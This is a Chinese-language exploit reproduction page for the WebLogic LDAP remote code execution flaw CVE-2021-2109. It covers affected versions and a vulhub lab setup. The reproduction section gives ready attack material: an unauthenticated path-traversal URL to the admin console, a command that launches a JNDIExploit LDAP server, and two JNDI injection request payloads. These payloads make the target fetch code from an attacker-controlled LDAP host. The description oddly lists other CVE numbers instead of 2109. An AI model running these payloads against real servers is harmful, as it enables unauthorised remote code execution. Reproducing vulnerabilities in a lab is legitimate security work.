 ```yaml
---
Title: Weblogic LDAP 远程代码执行漏洞 CVE-2021-2109
---
```


# Weblogic LDAP 远程代码执行漏洞 CVE-2021-2109

## 漏洞描述

2021年1月20日，绿盟科技监测发现Oracle官方发布了2021年1月关键补丁更新公告CPU（Critical Patch Update），共修复了329个不同程度的漏洞，其中包括7个影响WebLogic的严重漏洞（CVE-2021-1994、CVE-2021-2047、CVE-2021-2064、CVE-2021-2108、CVE-2021-2075、CVE-2019-17195、CVE-2020-14756），未经身份验证的攻击者可通过此次的漏洞实现远程代码执行。CVSS评分均为9.8，利用复杂度低。建议用户尽快采取措施，对上述漏洞进行防护。

## 漏洞影响

<a-checkbox checked>WebLogic Server 10.3.6.0.0</a-checkbox></br>

<a-checkbox checked>WebLogic Server 12.1.3.0.0</a-checkbox></br>

<a-checkbox checked>WebLogic Server 12.2.1.3.0</a-checkbox></br>

<a-checkbox checked>WebLogic Server 12.2.1.4.0</a-checkbox></br>

<a-checkbox checked>WebLogic Server 14.1.1.0.0</a-checkbox></br>

## 环境搭建

```plain
git clone https://github.com/vulhub/vulhub.git
cd vulhub/weblogic/CVE-2020-14882
docker-compose up -d
```

访问 `http://xxx.xxx.xxx.xxx:7001` 正常即可

![img](../../../.vuepress/public/img/1627122357513-3368f5c9-1557-48c9-965c-478ae4d5867a.png)



## 漏洞复现

访问一下URL `http://xxx.xxx.xxx.xxx:7001/console/css/%2e%2e%2f/consolejndi.portal`

![img](../../../.vuepress/public/img/1627122379832-ab7a422e-fc91-4e0a-8c74-ae1b27ee365a.png)

如果有此页面未授权可访问，且在影响范围内则可能出现漏洞, 下载漏洞攻击需要的 LDAP启动脚本

![img](../../../.vuepress/public/img/1627122389252-7e57ec2f-7b8c-40a6-9a93-af57d117aeec.png)



下载到服务器上启动

```shell
java -jar JNDIExploit-v1.11.jar -i xxx.xxx.xxx.xxx (服务器地址)
```

![img](../../../.vuepress/public/img/1627122394942-2d2aefd9-5ed1-4d18-b721-f1b7c936263b.png)

然后配合 Weblogic未授权范围 命令执行

```plain
/console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho;AdminServer%22)
```

<a-alert type="success" message="注意 ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho 这里 LDAP服务器地址第三个分隔符号为 ;" description="" showIcon>
</a-alert>

<br/>

![img](../../../.vuepress/public/img/1627122414874-e7efeca4-04b4-46a6-b4d7-273500602833.png)

登录后台可使用此POC，未授权的话用上面的

```plain
/console/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho;AdminServer%22)
```

